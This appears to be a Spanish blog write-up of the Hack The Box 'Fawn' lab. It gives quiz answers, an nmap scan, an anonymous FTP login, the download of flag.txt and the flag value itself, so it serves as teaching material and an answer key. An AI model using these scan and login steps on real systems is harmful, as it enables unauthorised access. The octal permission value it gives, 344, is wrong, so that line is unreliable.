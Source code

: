 ```yaml
---
title: Máquina Fawn - HTB
published: 2024-10-08
description: 'Write-Up de la máquina Fawn de Hack the Box '
image: ''
tags: [HTB, writeup, ftp, nmap]
category: 'HTB'
draft: false 
lang: 'es'
---
```



Como segundo articulo de máquinas de Hack The Box veremos en esta oportunidad la máquina **Fawn**, un reto de la sección Starting Point. Se documentaran las tareas y pasos necesarios para pwnear la máquina víctima. (●'◡'●)

### HAPPY HACKING!

![](img/htb_fawn.png)

**Dificultad:** Very Easy

**Tags:** FTP | Protocolos | Reconocimiento | Anonimato/Acceso Invitado


## Tareas:

1. ¿Qué significan las 3 letras del acrónimo FTP?   
Respuesta: *File Transfer Protocol*

2. ¿Qué puerto utiliza el servicio FTP para usualmente estar a la escucha?   
Respuesta: *21*

3. FTP envía datos en texto plano, sin ningún tipo de cifrado. ¿Qué acrónimo se utiliza para un protocolo posterior diseñado para proporcionar una funcionalidad similar a FTP pero de forma segura, como una extensión del protocolo SSH?   
Respuesta: *SFTP*

4. ¿Cuál es el comando que podemos usar para enviar una solicitud de eco ICMP para probar nuestra conexión con el objetivo?    
Respuesta: *ping*

5. Basandonos en nuestro escaner, ¿Qué version de FTP esta corriendo en el objetivo?    
Para esto, como en la máquina anterior utilizaremos la herramienta `nmap`

```
kali@kali:~$ sudo nmap -p- -sS -sCV -T5 --open -vvv -n -Pn 10.129.152.96
```

Resultado del escaneo:
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
```
En "VERSION" tenemos la respuesta    
Respuesta: *vsftpd 3.0.3*

:::TIP[OJO]
Como dato curioso al hacer el escaner podemos ver 2 cosas extra
:::

Podemos ver que se ha permitido el acceso anónimo al servidor FTP. el codigo de respuesta 230 es el código estándar en FTP para indicar que el inicio de sesión fue exitoso
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Y aquí podemos ver la flag

```
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```
 
Los permisos del archivo son RWRR como notación simbólica de permisos ó 344 en notación octal.
Esto significa que el     
**Propietario** tiene permisos: R (lectura) y W (Escritura)  
**Grupo** tiene permisos: R(lectura) y  
**Otros** tiene permisos: R(lectura)  

El primer 0 corresponde al **"ID usuario propietario"**, es común que el id 0 corresponda al usuario "root"   
El segunto 0 corresponde al **"ID del grupo propietario"** 






6. En base a nuestro escaner, ¿Qué sistema operativo esta utilizando el objetivo?

Para responder esto, adjuntare el output completo del escaneo hecho previamente con `nmap`

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.87
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```
Respuesta: *Unix*

:::TIP
Aquí no fue necesario pero podemos ver el sistema operativo con el comando "nmap -O"
:::


7. ¿Cuál es el comando que debemos ejecutar para mostrar el menú de ayuda del cliente `ftp`?   
Respuesta: *ftp -h*   
(-h viene de help)

8. ¿Cuál es el nombre de usuario que se usa en FTP cuando deseas iniciar sesión sin tener una cuenta?

Por default uno puede ingresar por ftp con el usuario anonymous, sin necesidad de contraseña    
Respuesta: *anonymous*

Probemos!   
Primero ingresamos con ftp y utilizamos la ip de la máquina víctima
```
kali@kali:~$ ftp 10.129.152.96
Connected to 10.129.152.96.
220 (vsFTPd 3.0.3)
```
Conectados!, ahora necesitamos el nombre de usuario y contraseña
```
Name (10.129.152.96:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> 
```
Listo, utilizamos como usuario *anonymous* y como contraseña nada.

9. ¿Cuál es el código de respuesta que obtenemos para el mensaje de FTP 'Login successful'?

Como vimos en la tarea anterior, la respuesta a un ingreso exitoso es
```
230 Login successful.
```
Respuesta: *230*

10. Hay un par de comandos que podemos usar para listar los archivos y directorios disponibles en el servidor FTP. Uno es dir. ¿Cuál es el otro que es una forma común de listar archivos en un sistema Linux?

El comando más común para ver archivos dentro de un directorio es `ls`

```
ftp> ls
229 Entering Extended Passive Mode (|||57537|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```
Y aquí nos encontramos nuevamente con `flag.txt`

Respuesta: *ls*

11. ¿Cuál es el comando que podemos utilizar para descargar el archivo que encontramos en el servidor FTP?

Intentemos leer el contenido de `flag.txt`

```
ftp> cat flag.txt
?Invalid command.
```
No podemos leerlo   
Por lo tanto nuestra mejor opción es descargarlo, como estamos por *File Transfer Protocol*

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||27394|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*********************************|    32      172.65 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.19 KiB/s)
```
:::TIP[OJO]
Por default cuando haces *get flag.txt* el archivo se enviará al directorio donde te encuentras situado
:::

Respuesta: *get*

12. Envía la flag

Ahora que ya tenemos el archivo en nuestra máquina solo queda leerlo

```
kali@kali:~/Desktop$ cat flag.txt                    
───────┬───────────────────────────────────────────────
       │  File: flag.txt
───────┼───────────────────────────────────────────────
   1   │  035db21c881520061c53e0536e44f815
───────┴───────────────────────────────────────────────
```


![](https://miro.medium.com/v2/resize:fit:677/1*GgPR03Kg9aZyzN2z25iCUw.png)

### Felicitaciones por completar la máquina Fawn de Hack The Box
Esta es la segunda máquina completada del starting point, espero que este WriteUp te haya sido útil para entender conceptos básicos de redes y hacking, nos vemos en la siguiente máquina!




